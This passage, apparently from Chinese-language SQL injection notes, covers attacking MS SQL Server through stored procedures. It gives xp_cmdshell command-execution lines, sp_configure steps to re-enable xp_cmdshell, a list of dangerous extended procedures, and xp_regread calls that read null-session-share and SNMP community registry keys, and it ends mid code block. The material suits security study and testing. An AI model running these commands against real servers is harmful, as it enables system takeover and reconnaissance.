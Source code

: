 ```SELECT p.*, pac.all_cities FROM {p}_page AS p left join {p}_page_all_cities pac on p.page_id=pac.page_id and p.lang=pac.lang left join {p}_page_all_provinces pap  on p.page_id=pap.page_id and p.lang=pap.lang WHERE p.[lang] = N'2' AND p.[hidden] = N'0' AND p.[parent_id] =14  And ( p.[title] like N'%sql%' )  And (p.[pri4]=N'1' Or p.[pri5]=N'1' Or p.[pri6]=N'1' Or p.[sec1]=N'1' Or p.[sec2]=N'1' Or p.[sec3]=N'1' Or p.[sec4]=N'1' Or p.[sec5]=N'1' Or p.[sec6]=N'1')  And ( wholeyear=N'1'  Or year1m9=N'1' Or  wholeyear=N'1'  Or year2m1=N'1')  ORDER BY  wholeyear```

## 攻击存储过程
仅当存储过程不能生成动态sql时，才可以使用存储过程避免注入问题。


### 存储过程
在ms sql server 和oracle中有大量内置的存储过程，他们与UDF很像，但必须使用 `CALL` 或 `EXECUTE` 执行。

#### ms sql server

#####  xp_cmdshell
微软的sql server 中，存储过程 `xp_cmdshell`可谓是臭名昭著，黑客教程总会讲到注入sql server时使用其执行系统命令：
- `EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:\'`
- `EXEC master.dbo.xp_cmdshell 'ping'`

存储过程 `xp_cmdshell` 在sqlserver 2000默认开启，在 2005后被默认关闭了。但sqlserver2005\2008中, 如果当前数据库用户有 sysadmin 权限，则可以使用 `sp_configure` 重新开启它。如果在sqlserver 2000被关闭，则可以使用sp_addextendproc开启它。

例如：
```
EXEC sp_configure 'show advanced options' , 1
RECONFIGURE

EXEC sp_configure 'xp_cmdshell', 1
RECONFIGURE
```

##### 其他可用的存储过程
- `xp_regread` 操作注册表
- xp_regaddmultistring
- xp_regdeletekey
- xp_regdeletekey
- xp_regenumkeys
- xp_regenumvalues
- xp_regread
- xp_regremovemultistring
- xp_regwrite
- xp_servicecontrol ,允许用户启动，停止服务
- xp_availablemedia，显示机器上有用的驱动器
- xp_dirtree，允许获得一个目录树
- xp_enumdsn，列举服务器上的odbc数据源
- xp_loginconfig，获取服务器安全信息
- xp_makecab，允许用户在服务器上创建一个压缩文件
- xp_ntsec_enumdomains，列举服务器可以进入的域
- xp_terminate_process，提供进程id，终止此进程

例如:
```
EXEC xp_regread HKEY_LOCAL_MACHINE,'SYSTEM\CurrentControlSet\Services\lanmanserver\parameters','nullsessionshares'

EXEC xp_regnumvalues HKEY_LOCAL_MACHINE,'SYSTEM\CurrentControlSet\Services\snmp\parameters\validcommunities'
